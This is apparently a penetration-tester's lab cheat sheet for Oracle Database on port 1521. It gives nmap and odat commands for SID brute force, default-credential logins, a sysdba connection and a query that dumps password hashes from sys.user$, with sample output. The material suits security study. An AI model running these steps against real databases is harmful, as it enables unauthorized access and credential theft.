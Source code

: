 ```yaml
---
title: Oracle DB
tags: [service, enum, database]
service: Oracle
protocol: ['tcp']
port: [1521]
auth: ['password', 'default-creds', 'sid-bruteforce', 'oracle-net']
tools: ['nmap', 'sqlplus', 'odat.py']
notes: "SID brute force, weak creds, DB links, check PUBLIC roles"
---
```


# Oracle Database Server

## Common Attack Paths

### Enumeration
- [ ] Banner grab → `nmap -p1521 --script=oracle* <target>`
- [ ] SID brute force → `odat sidguesser -s <target>`
- [ ] Login test with `sqlplus user/pass@host:1521/sid`

### Attack Paths
- Default creds (scott/tiger, system/manager, etc.)
- SID brute force → unauthorized DB access
- Abuse PUBLIC role grants
- DB links → pivot to other databases

### Auxiliary Notes
- Oracle client tools may be needed for full access.
- Good chance of finding plaintext creds inside DB tables.
- In labs, weak/default accounts are common footholds.



## General Enumeration

*Common Commands:*

`sudo nmap -p1521 -sV 10.129.204.235 --open`

*SSID Brute Force:*

`$ sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute`

*ODAT:*

$ `./odat.py all -s 10.129.204.235`

### SQLplus:

`$ sqlplus scott/tiger@10.129.204.235/XE`

>If you come across the following error `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`, please execute the below, taken from [here](https://stackoverflow.com/questions/27717312/sqlplus-error-while-loading-shared-libraries-libsqlplus-so-cannot-open-shared).

`$ sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig`

*Example:*
```bash
SQL> select table_name from all_tables;

TABLE_NAME
------------------------------
DUAL
SYSTEM_PRIVILEGE_MAP
TABLE_PRIVILEGE_MAP
STMT_AUDIT_OPTION_MAP
AUDIT_ACTIONS
WRR$_REPLAY_CALL_FILTER
HS_BULKLOAD_VIEW_OBJ
HS$_PARALLEL_METADATA
HS_PARTITION_COL_NAME
HS_PARTITION_COL_TYPE`

SQL> select * from user_role_privs;
USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SCOTT                          CONNECT                        NO  YES NO
SCOTT                          RESOURCE                       NO  YES NO
```

*Oracle RDBMS - Database Enumeration*

```bash
sqlplus scott/tiger@10.129.204.235/XE as sysdba
SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO
USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
...SNIP...
```


*Oracle RDBMS - Extract Password Hashes:*

```bash
SQL> select name, password from sys.user$;
NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE
NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...
```
